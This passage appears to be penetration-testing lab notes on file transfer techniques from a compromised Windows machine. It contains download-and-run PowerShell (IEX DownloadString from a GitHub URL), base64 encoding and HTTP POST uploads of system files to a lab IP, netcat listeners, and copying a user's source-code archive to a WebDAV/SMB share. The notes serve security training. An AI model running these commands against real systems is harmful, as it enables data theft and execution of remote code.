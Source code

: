 ```
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```
## Upload Operations
### PowerShell Base64 Encode & Decode
Encoding
```
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```
Decoding
```
echo <Base64-String> | base64 -d > hosts
```
### PowerShell Web Uploads
Installing a Configured WebServer with Upload
```
pip3 install uploadserver
```
```
python3 -m uploadserver
```
PowerShell Script to Upload a File to Python Upload Server
```
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```
PowerShell Base64 Web Upload
```
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```
```
nc -lvnp 8000
```
### SMB Uploads
Configuring WebDav Server
Installing WebDav Python Modules
```
sudo pip install wsgidav cheroot
```
Using the WebDav Python module
```
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```
Connecting to the Webdav Share
```
dir \\192.168.49.128\DavWWWRoot
```
Uploading Files using SMB
```
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```